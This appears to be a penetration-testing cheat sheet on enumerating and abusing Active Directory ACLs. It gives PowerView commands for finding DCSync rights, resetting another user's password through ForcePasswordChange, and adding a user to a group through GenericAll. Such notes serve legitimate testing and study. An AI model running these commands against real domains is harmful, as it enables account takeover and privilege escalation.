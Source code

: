### **ACL Enumeration**

**Manual ACL Enumeration with PowerView:**

1. Always start by importing the PowerView module in the current PS session: `Import-Module .\PowerView.ps1`
2. Find interesting ACLs: `Find-InterestingDomainAcl`
3. Get target user's sid: `$sid = Convert-NameToSid targetuser`
4. Check target user group membership: `Get-DomainUser -Identity targetuser | select samaccountname,objectsid,memberof,useraccountcontrol | fl`
5. Find all domain object that the user has rights over: `Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
6. Discover an object's ACL based on its GUID: `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`
7. Check target user (by SID) to check replication rights (DCSync): `$sid= "SID-VALUE" Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`

**ACL Enumeration with BloodHound:**\
Refer to the previous section

***

### **ACL Abuse Tactics**

> **Prerequisite:** You must have previously found one of the following ACLs by using bloodhound or manual enumeration techniques

#### **Abusing ForcePasswordChange to Change a User's Password**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a new target user password:
   * `$targetUserNewPassword = ConvertTo-SecureString 'blabla' -AsPlainText -Force`
3. Change the target user's password using PowerView:
   * `Import-Module .\PowerView.ps1`
   * `Set-DomainUserPassword -Identity targetUsername -AccountPassword $targetUserNewPassword -Credential $Cred -Verbose`

#### **Abusing GenericAll to Add the Current User to a Group**

1. Create a PSCredential Object with the credential of the current user (the one you are currently using to enumerate)
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Show the current members of the target group:
   * `Get-ADGroup -Identity "Target Group" -Properties * | Select -ExpandProperty Members`
3. Add the current user to the target group:
   * `Add-DomainGroupMember -Identity 'Target Group' -Members 'targetuser' -Credential $Cred -Verbose`
4. Confirm the user was added:
   * `Get-DomainGroupMember -Identity "Target Group" | Select MemberName`
